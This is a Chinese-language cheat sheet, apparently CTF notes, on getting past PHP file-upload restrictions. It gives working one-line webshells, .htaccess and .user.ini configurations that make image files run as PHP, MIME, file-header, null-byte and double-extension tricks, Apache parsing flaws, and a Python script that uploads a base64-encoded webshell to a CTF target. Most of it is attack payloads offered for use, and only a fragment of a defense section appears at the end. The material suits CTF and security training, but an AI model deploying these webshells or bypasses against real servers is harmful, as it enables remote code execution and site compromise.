



一句话木马：其中eval就是执行命令的函数，$_POST[‘a’]就是接收的数据，eval函数把接收的数据当作PHP代码来执行。这样我们就能够让插入了一句话木马的网站执行我们传递过去的任意PHP语句

一般思路：上传木马文件--获取靶机shell--访问服务器（有时可以打开upload.php 察看源码）

无验证时采用一句话木马：

```
<?php @eval($_POST['shell']);?>

<?php phpinfo();?>

<?=`cat *`; 查看源码

<script language='php'>eval($_POST[1])</script> 
//常用于问号被过滤
```

可以通过shell=phpinfo();查看是否上传成功，再用蚁剑连接该网站shell，密码为’shell‘

## 一 前端绕过

- 当遇到前端JavaScript脚本过滤时，可以禁用浏览器JavaScript（在火狐浏览器地址栏输入about:config，搜索JavaScript.enable
- 或者先改后缀名为白名单文件，在再上传时使用bp抓包将后缀名改为php，再使用命令验证是否上传成功

## 二 .htaccess绕过

- 可用文件绕过， 先将下列代码上传，必须得以.htaccess（不能有前缀）为文件名上传，然后再将文件xxx或者其他格式文件进行上传（详情如下），即可获得shell
  
  ```
  <FilesMatch "xxx">  
        SetHandler application/x-httpd-php  
  </FilesMatch>
  //此代码将文件名为xxx(没有后缀名)作为php文件进行解析
  ```
  
  或者
  
  ```
  AddType application/x-httpd-php .jpg
  AddType application/x-httpd-php .png
  将任意jpg文件作为php文件进行解析
  ```

 .htaccess是一个纯文本文件，它里面存放着Apache服务器配置相关的指令，.htaccess的用途范围主要针对当前目录

```
#define width 1337
#define height 1337 
AddType application/x-httpd-php .ahhh
php_value auto_append_file "php://filter/convert.base64-decode/resource=./shell.ahhh"

//GIF89会使.htaccess无法生效，使用#define width 1337 #define height 1337进行绕过
```

Python文件上传脚本：

```
import requests
import base64

htaccess = b"""
#define width 1337
#define height 1337 
AddType application/x-httpd-php .ahhh
php_value auto_append_file "php://filter/convert.base64-decode/resource=./shell.ahhh"
"""
shell = b"GIF89a12" + base64.b64encode(b"<?php eval($_REQUEST['cmd']);?>")
url = "http://95670a2d-e895-4364-bb7b-94939098a4b6.node3.buuoj.cn/?_=${%86%86%86%86^%d9%c1%c3%d2}{%86}();&%86=get_the_flag"

files = {'file':('.htaccess',htaccess,'image/jpeg')}
data = {"upload":"Submit"}
response = requests.post(url=url, data=data, files=files)
print(response.text)

files = {'file':('shell.ahhh',shell,'image/jpeg')}
response = requests.post(url=url, data=data, files=files)
print(response.text)
```

.htaccess主要的作用有：URL重写、自定义错误页面、MIME类型配置以及访问权限控制等。主要体现在伪静态的应用、图片防盗链、自定义404错误页面、阻止/允许特定IP/IP段、目录浏览与主页、禁止访问指定文件类型、文件密码保护等 

 

## 三.MIME绕过



- 通过bp抓包，将Content-Type：application/octet-stream改成image/jpg（png、jpeg）等（多试几种）
- 也可以先将文件改成后缀为.jpg,.png等，再在上传时通过bp抓包，将后缀重新改为.php文件

MIME(Multipurpose Internet Mail Extensions)多用途互联网邮件扩展类型，是设定某种扩展名的文件用一种应用程序来打开的方式类型，当该扩展名文件被访问的时候，浏览器会自动使用指定应用程序来打开，多用于指定一些客户端自定义的文件名，以及一些媒体文件打开方式

MIME类型校验就是我们在上传文件到服务端的时候，服务端会对客户端也就是我们上传的文件的Content-Type类型进行检测，如果是白名单所允许的，则可以正常上传，否则上传失败

## 四.文件头检查绕过

每个文件都有自己的标识符，在文件传输时会进行检测文件头检查，在进行文件上传时不仅对文件格式进行了校验，也对文件内容进行了验证，我们可以把木马文件包含在可验证的文件中来绕过验证

用画图工具创建一个简单的png文件，复杂的会报错，然后在把png文件进行上传，用bp抓包，把脚本内容插入png内容中，并把png文件修改为php文件

或者给文件添加文件头，例如`GIF89a`

## 五.00截断

php版本小于5.3.29

00截断是操作系统层的漏洞，由于操作系统是C语言或汇编语言编写的，这两种语言在定义字符串时，都是以\\0（即0x00）作为字符串的结尾。操作系统在识别字符串时，当读取到\0字符时，就认为读取到了一个字符串的结束符号。因此，我们可以通过修改数据包，插入\\0字符的方式，达到字符串截断的目的。00截断通常用’%00‘来绕过web软waf的白名单限制

下列以ctfhub为例：

将用户上传的文件名与白名单中的文件（jpg、png、gif）进行比较，并生一个相同扩展名的随机文件名称，无法成功上传，于是采用%00截断，将road后面产生的随机数全部忽略掉


同时改url和filename

```
file.php%00.png
file.php%0A.png
file.php\n.png
file.php\u000a.png
file.php\u560a.png
file.php%E5%98%8A.png
file.php;.png
file.php%3B.png
file.php\u003b.png
file.php\u563b.png
file.php%E5%98%BB.png
```



basename() 函数：返回路径中的文件名部分

## 六、.user.ini绕过

php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：`PHP_INI_SYSTEM`、`PHP_INI_PERDIR`、`PHP_INI_ALL`、`PHP_INI_USER`

相当于在该目录下的php文件（index.php）里插入了包含语句include('1.png'),例如/upload/index.php

.user.ini文件内容（注意有没有文件头绕过）

```
auto_prepend_file=shell.png
```

shell.png是要包含的文件,即再上传shell.jpg文件，内容为（短标签绕过）

```
<?=eval($_POST['shell']);?>

<?=`ls`?>

<?=(system('nl ../*.ph*'))?>
```

但是上传的路径不是显示路径，而是解析路径，需要按F12查看

## 七、短标签绕过

正则过滤了php

可以用`<?= ?>`代替php标签。`<?= ?>`短标签会直接把php的结果输出，`<? ?>`的功能则和`<?php?>`完全一样

## 文件后缀替换

以下文件类型可以执行php代码

```
.php .html .phtml .php3 .php4 .php5 .php7 .php8
```

## Apache解析漏洞

①因为Apache默认一个文件可以有多个用.分割得后缀，当最右边的后缀无法识别（mime.types文件中的为合法后缀）则继续向左看，直到碰到合法后缀才进行解析（以最后一个合法后缀为准）

```
如shell.jpg.php，因为后缀.php不合法，所以向左看，jpg成功被正常解析并传入
```


②如果服务器给.php后缀添加了处理器：AddHandler application/x-httpd-php.php
那么，在有多个后缀的情况下，只要包含.php后缀的文件就会被识别出php文件进行解析，不需要是最后一个后缀。如shell.php.jpg中包含.php，所以解析为php文件

③Apache换行解析漏洞（CVE-2017-15715）

```
影响范围：2.4.0-2.4.29版本

原因：合法后缀配置文件中的正则表达式中$不仅匹配字符串结尾位置，还可以匹配\n或\r，在解析时，shell.php\x0A将按照.php进行解析，而’.php\x0A’ != ‘.php’,如果过滤时过滤了.php但没有过滤.php\x0A从而实现绕过
```

## 双写绕过

与xss中双写绕过类似，当文件上传时，会有一次过滤文件名敏感文字，即可采取双写文件后缀绕过
，例如：shell.pphph

## 没有提交按钮

直接在页面前端编辑html即可

**过滤空格可以用\\t绕过，或者%09也是tab的URL编码**

**方括号被过滤**

```
可以用{ }进行绕过
```


## 防御策略

①文件上传的目录设置为不可执行，只要web容器无法解析该目录下面的文件，即使攻击者上传了脚本文件，服务器本身也不会受到影响。